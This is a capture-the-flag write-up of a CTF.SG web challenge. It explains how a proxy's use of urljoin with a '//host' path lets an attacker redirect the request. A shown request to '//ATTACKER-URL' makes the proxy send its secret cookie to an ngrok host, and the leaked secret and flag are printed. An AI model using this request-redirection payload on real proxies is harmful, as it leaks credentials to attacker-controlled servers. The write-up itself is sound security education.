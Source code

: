 # Don't Touch My Flag

> I found a flag on a server, though access seems to be protected by a secret. Being generous, I decided to share the flag with you through my proxy server.\
> \
> Oh, the censoring? Sorry about that, I'll remove it after this CTF is over.\
> \
> http://chals.ctf.sg:40101\
> http://chals.ctf.sg:40102\
> \
> author: JustinOng

This challenge consists of two servers - a proxy and a backend.

Let's take a look at how the proxy makes the request to the backend. The secret token is added to the cookies, and a user-controlled `uri` is joined to the backend URL using `urllib.parse.urljoin`.

```python
@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

    r = requests.get(full_url, cookies={
        "secret": secret
    })
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored
```

But `urljoin` doesn't fare well when presented with a malformed path.

```python
>>> from urllib.parse import urljoin
>>> urljoin("http://www.example.com", "test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "/test")
'http://www.example.com/test'
>>> urljoin("http://www.example.com", "//test")
'http://test'
```

This allows us to get the proxy to make a request to our own server:

```http
GET /get?uri=//ATTACKER-URL HTTP/1.1
Host: chals.ctf.sg:40101
```

In the received request, we get the secret cookie.

```http
GET / HTTP/1.1
Host: ae64-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b
X-Forwarded-For: 178.128.25.242
X-Forwarded-Proto: http


```

Now we can send a request directly to the backend, which checks our secret before giving us the flag!

```python
@app.route("/flag")
def get_flag():
    if request.cookies.get("secret") != secret:
        return "\N{Black Flag}"

    return flag

```

The flag is `CTFSG{d0nT_toUcH_mY_c00k13s}`
